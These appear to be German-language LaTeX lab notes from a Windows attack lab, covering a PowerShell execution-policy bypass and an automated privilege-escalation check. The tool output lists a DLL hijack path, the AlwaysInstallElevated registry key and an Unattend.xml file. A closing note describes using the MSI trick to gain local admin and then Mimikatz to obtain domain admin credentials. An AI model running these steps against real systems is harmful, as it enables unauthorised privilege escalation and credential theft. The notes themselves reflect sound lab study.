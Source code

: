 \paragraph{Commands}
\begin{itemize}
    \item powershell -exec bypass
    \begin{itemize}
        \item execution policy überspringen
    \end{itemize}
    \item Import\-Module .\\Privesc.psd1
    \begin{itemize}
        \item wichtiges Privsec Module importieren
    \end{itemize}
    \item Invoke-AllChecks
    \begin{itemize}
        \item Privilege Escalation laufen lassen
        \item Output:
    \end{itemize}
\end{itemize}


\begin{lstlisting}[language=bash]
    ModifiablePath    : C:\Users\tmassie\AppData\Local\Microsoft\WindowsApps
    IdentityReference : winattacklab\tmassie
    Permissions       : {WriteOwner, Delete, WriteAttributes, Synchronize...}
    %PATH%            : C:\Users\tmassie\AppData\Local\Microsoft\WindowsApps
    Name              : C:\Users\tmassie\AppData\Local\Microsoft\WindowsApps
    Check             : %PATH% .dll Hijacks
    AbuseFunction     : Write-HijackDll -DllPath 'C:\Users\tmassie\AppData\Local\Microsoft\WindowsApps\wlbsctrl.dll'

    Check         : AlwaysInstallElevated Registry Key
    AbuseFunction : Write-UserAddMSI

    UnattendPath : C:\windows\Panther\Unattend.xml
    Name         : C:\windows\Panther\Unattend.xml
    Check        : Unattended Install Files
\end{lstlisting}

\paragraph{Kurz \& Knapp}\mbox{} \\
Den kann man brauchen um mit \textit{MSI} User zu erstellen/ als admin auszuführen (bakannte Schwachstelle). \textbf{Mit dem Key sagt man, dass wenn man dieses \textit{MSI} ausführt, es immer als Admin ausgeführt werden soll}.
$\rightarrow$ das Tool brauchen um an lokale Adminrechte zu kommen, um dann mit Mimikatz Domänen-Admin Credentials zu bekommen.

